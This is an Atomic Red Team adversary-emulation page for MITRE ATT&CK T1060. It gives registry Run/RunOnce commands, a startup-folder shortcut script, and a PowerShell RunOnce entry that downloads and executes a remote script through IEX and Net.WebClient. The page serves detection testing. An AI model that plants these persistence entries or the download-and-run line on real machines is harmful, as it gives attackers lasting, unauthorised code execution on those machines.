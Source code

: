 # Registry Run Keys / Start Folder

## MITRE ATT&CK Technique:
[T1060](https://attack.mitre.org/wiki/Technique/T1060)

## Reg Add 1

    REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "Atomic Red Team" /t REG_SZ /F /D "C:\Path\AtomicRedTeam.exe"


## Reg Add 2

    REG ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend /v 1 /d "C:\Path\AtomicRedTeam.dll"

## PowerShell

    $RunOnceKey = "HKLM:\Software\Microsoft\Windows\CurrentVersion\RunOnce"
    set-itemproperty $RunOnceKey "NextRun" 'C:\Windows\System32\WindowsPowerShell\v1.0\Powershell.exe "IEX (New-Object Net.WebClient).DownloadString(`"https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Windows/Payloads/Discovery.bat`")"'

## Oneliner:

    set-itemproperty "HKLM:\Software\Microsoft\Windows\CurrentVersion\RunOnce" "NextRun" 'C:\Windows\System32\WindowsPowerShell\v1.0\Powershell.exe "IEX (New-Object Net.WebClient).DownloadString(`"https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Windows/Payloads/Discovery.bat`")"'

## Startup Folder

### Single User:

    C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

### All Users:

    C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp

### Add .lnk file to startup with PowerShell:

    $TargetFile = "$env:SystemRoot\System32\notepad.exe"
    $ShortcutFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\Notepad.lnk"
    $WScriptShell = New-Object -ComObject WScript.Shell
    $Shortcut = $WScriptShell.CreateShortcut($ShortcutFile)
    $Shortcut.TargetPath = $TargetFile
    $Shortcut.Save()

